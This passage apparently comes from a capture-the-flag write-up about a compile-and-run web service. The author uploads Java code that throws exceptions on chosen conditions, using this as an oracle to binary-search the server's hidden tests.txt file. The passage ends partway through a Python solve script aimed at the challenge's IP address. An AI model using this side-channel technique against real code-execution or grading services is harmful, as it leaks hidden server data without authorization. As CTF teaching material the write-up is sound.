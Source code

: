 ```java
            e.printStackTrace();
        }
        return lines;
    }
}
```

If we try to upload this script we get the following:

![](1.png)

alright, lets try to change the script and flip the `>` to `<` and ask if the first input is larger than 5, then in case throw an exception.

We upload the script and then.

![](2.png)

Ok so we can cleverly ask questions now, essentially binary searching the tests.txt file in the backend.

I wrote this super janky ass solve script on way too few hours of sleep. It will pull out all the test cases.

```python
import requests
from urllib.parse import quote

burp0_url = "http://157.230.16.162:10009/compile_and_run"
burp0_headers = {"Cache-Control": "max-age=0", "Upgrade-Insecure-Requests": "1", "Origin": "http://157.230.16.162:10009", "Content-Type": "application/x-www-form-urlencoded", "User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/116.0.0.0 Safari/537.36", "Accept": "text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7", "Referer": "http://157.230.16.162:10009/", "Accept-Encoding": "gzip, deflate", "Accept-Language": "en-US,en;q=0.9", "Connection": "close"}

#This java code is used to get how many tests 
javatests = '''import java.io.BufferedReader;
import java.io.File;
import java.io.FileReader;
```